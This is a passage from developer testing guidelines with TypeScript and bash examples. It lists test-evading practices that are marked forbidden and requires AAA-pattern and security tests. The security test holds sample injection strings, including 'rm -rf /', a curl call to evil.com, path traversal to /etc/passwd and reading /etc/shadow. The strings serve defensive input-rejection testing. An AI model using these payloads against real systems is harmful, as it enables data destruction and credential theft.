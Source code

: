3. **Comment Out Tests**
   ```typescript
   // ❌ FORBIDDEN
   // it('should work', () => {
   ```

4. **Ignore Failing Tests**
   ```typescript
   // ❌ FORBIDDEN
   try {
       runTest();
   } catch {
       // Ignore and continue
   }
   ```

5. **Merge with Failing Tests**
   ```bash
   # ❌ FORBIDDEN
   git merge feature-branch # With failing tests
   ```

## ✅ Required Test Patterns

### Every Test Must Follow AAA Pattern

```typescript
it('should [clear description of expected behavior]', () => {
    // Arrange - Set up test conditions
    const input = 'test-data';
    const expected = 'expected-result';

    // Act - Execute the function
    const result = functionUnderTest(input);

    // Assert - Verify the outcome
    expect(result).toBe(expected);
});
```

### Security Tests Are Mandatory

For ANY function that accepts user input:

```typescript
describe('Security', () => {
    const maliciousInputs = [
        'test; rm -rf /',
        'test && curl evil.com',
        '../../../etc/passwd',
        'test`whoami`',
        'test$(cat /etc/shadow)'
    ];

    maliciousInputs.forEach(input => {
        it(`should reject malicious input: ${input}`, () => {
            expect(() => functionUnderTest(input)).toThrow();
        });
    });
});
```
